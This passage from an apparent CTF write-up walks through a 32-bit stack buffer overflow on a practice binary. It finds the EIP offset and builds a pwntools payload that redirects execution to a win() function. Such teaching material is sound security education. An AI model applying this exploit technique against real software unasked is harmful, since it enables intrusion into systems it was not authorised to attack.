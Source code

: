 Nothing interesting yet, let's try to send more A's until we see some in our **EIP** register.

![Output of the EIP register being overwritten](baby-bof-86-eip-overwritten.png)

Looks like sending 46 A's succesfully overwrote the **EIP** register, but because we want to replace the register with the address of the `win()` function, we need to get rid of 4 of the A's, leaving us with an offset of 42 bytes.

#### Reaching the `win()` function
For this, we can utilize the [`pwntools`](https://github.com/Gallopsled/pwntools) package.

Let's take what we know so far and put into a python script
{{< highlight py solve.py >}}
from pwn import * # Import everything from the package

io = process('./baby-bof-x86') # Create a process of the program

offset = 42 # Offset discovered via gdb
payload = b"A"*offset # Our A's encoded into bytes.
{{< /highlight >}}
Remember how we saw the address of the `win()` function when we ran the program? We can use that and append it to our payload which should hopefully set the **EIP** register to it.

{{< highlight py solve.py >}}
from pwn import * # Import everything from the package

io = process('./baby-bof-x86') # Create a process of the program

offset = 42 # Offset discovered via gdb
payload = b"A"*offset # Our A's encoded into bytes.
payload += p32(0x80485c6) # b'\xc6\x85\x04\x08'
{{< /highlight >}}
